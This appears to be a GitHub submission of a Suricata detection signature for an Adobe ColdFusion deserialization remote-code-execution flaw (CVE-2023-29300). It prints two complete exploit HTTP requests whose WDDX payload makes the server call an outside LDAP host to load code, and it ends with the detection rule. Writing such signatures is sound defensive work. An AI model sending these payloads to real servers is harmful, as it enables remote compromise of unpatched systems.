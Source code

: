 # ET Open Submission (Return from PCRE grave)
### May 2nd, 2024
### Adobe ColdFusion XML Deserialization Leads to RCE (CVE-2023-29300)


![8olo1g](https://github.com/eatinsundip/Suricata/assets/43767555/aadafd56-30f9-4747-bb3e-2d78dcfa22f4)


## Resources

1. [https://github.com/taythebot/CVE-2022-46169](https://github.com/vulhub/vulhub/tree/master/coldfusion/CVE-2023-29300)
2. [https://blog.projectdiscovery.io/adobe-coldfusion-rce/](https://blog.projectdiscovery.io/adobe-coldfusion-rce/)

### The exploit itself:

```
POST /CFIDE/adminapi/accessmanager.cfc?method=foo&_cfclient=true HTTP/1.1
Host: localhost
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.5735.134 Safari/537.36
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 333


argumentCollection=<wddxPacket version='1.0'><header/><data><struct type='xcom.sun.rowset.JdbcRowSetImplx'><var name='dataSourceName'><string>ldap://your.ldap.server/example</string></var><var name='autoCommit'><boolean value='true'/></var></struct></data></wddxPacket>
```

I was however able to get the LDAP calls to fire on much less.

```
POST /CFIDE/adminapi/accessmanager.cfc?method=foo HTTP/1.1
Host: localhost
User-Agent: curl/8.5.0
Accept: */*
Content-Length: 387
Content-Type: application/x-www-form-urlencoded

argumentCollection=%3CwddxPacket%20version%3D%271.0%27%3E%3Cheader%2F%3E%3Cdata%3E%3Cstruct%20type%3D%27xcom.sun.rowset.JdbcRowSetImplx%27%3E%3Cvar%20name%3D%27dataSourceName%27%3E%3Cstring%3Eldap%3A%2F%2F192.168.1.144%2Ftest.ser%3C%2Fstring%3E%3C%2Fvar%3E%3Cvar%20name%3D%27autoCommit%27%3E%3Cboolean%20value%3D%27true%27%2F%3E%3C%2Fvar%3E%3C%2Fstruct%3E%3C%2Fdata%3E%3C%2FwddxPacket%3E
```

## Signature

```alert http $EXTERNAL_NET any -> $HOME_NET any (msg:"Adobe ColdFusion XML Deserialization Leads to RCE (CVE-2023-29300)"; flow:to_server,established; http.method; content:"POST"; http.uri; content:"/CFIDE/adminapi/accessmanager.cfc?method=foo&_cfclient=true"; fast_pattern; bsize:59; http.request_body; content:"argumentCollection|3d 3c|wddxPacket|20|version|3d 27|1|2e|0|27 3e 3c|header|2f 3e 3c|data|3e 3c|struct|20|type|3d 27|xcom|2e|sun|2e|rowset|2e|JdbcRowSetImplx|27 3e 3c|var|20|name|3d 27|dataSourceName|27 3e 3c|string|3e|ldap|3a 2f 2f|"; pcre:"/^.{3,100}/"; content:"|3c 2f|string|3e 3c 2f|var|3e 3c|var|20|name|3d 27|autoCommit|27 3e 3c|boolean|20|value|3d 27|true|27 2f 3e 3c 2f|var|3e 3c 2f|struct|3e 3c 2f|data|3e 3c 2f|wddxPacket|3e|"; sid:1; rev:1; metadata:attack_target Server, created_at 2024_05_02, deployment Perimeter, deployment Internal, former_category EXPLOIT, signature_severity Major, tag Exploit, updated_at 2024_05_02;)```


[Job Zip](https://github.com/eatinsundip/Suricata/files/15189851/9dfa93c65d3bbd7d.zip)

[https://dalton.securitymidwest.net/dalton/job/9dfa93c65d3bbd7d](https://dalton.securitymidwest.net/dalton/job/9dfa93c65d3bbd7d)


## NOTES
- I am a little rusty and very open to critique
- I plan to get a working LDAP server to host malicious serialized code.
	- I have never attempted RCE with an LDAP server so it's a learning experience.
